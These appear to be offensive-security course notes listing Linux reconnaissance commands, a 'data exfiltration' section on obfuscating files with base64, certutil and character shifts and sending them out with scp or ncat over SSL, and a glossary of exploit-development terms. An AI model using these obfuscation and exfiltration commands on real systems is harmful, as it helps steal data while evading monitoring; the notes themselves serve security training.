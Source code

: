 ==============
- cat /etc/passwd
- last
- groups
- id
- w 
- ps -elf
- chkconfig                   # SysV
  systemctl --type=service    # SystemD
- ip a             # SystemD
  ifconfig -a      # SysV (deprecated)
- netstat -ano
- ip r
- ip n
- /etc/hosts



data exfiltration
----------------------

Ssh transcript 
- ssh <user>@<host> | tee
  
windows obfucation
- type <file> | %{$_ -replace 'a','b' -replace 'b','c' -replace 'c','d'} > translated.out   |  (decode)  Get-Content translated.out | %{$_ -replace 'b','a' -replace 'c','b' -replace 'd','c'}
certutil -encode <file> encoded.b64   | (decode)   certutil -decode data.b64 data.txt

linux obfuscation
- cat <file> | tr 'a-zA-Z0-9' 'b-zA-Z0-9a' > shifted.txt   | (decode) cat shifted.txt | tr 'b-zA-Z0-9a' 'a-zA-Z0-9'
cat <file>> | base64 >> base64.txt          | (decode)  cat base64ed.txt | base64 -d

encryption trasport 
- scp <source> <destination>
  ncat --ssl <ip> <port> < <file>

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
day 5) 


exploit development 
-----------------------------
Heap - Memory that can be allocated and deallocated
Stack - A contiguous section of memory used for passing arguments
Registers - Storage elements as close as possible to the central processing unit (CPU)
Instruction Pointer (IP) - a.k.a Program Counter (PC), contains the address of next instruction to be executed
Stack Pointer (SP) - Contains the address of the next available space on the stack
Function - Code that is separate from the main program that is often used to replace code the repeats in order to make the program smaller and more efficient
Shellcode - The code that is executed once an exploit successfully takes advantage of a vulnerability
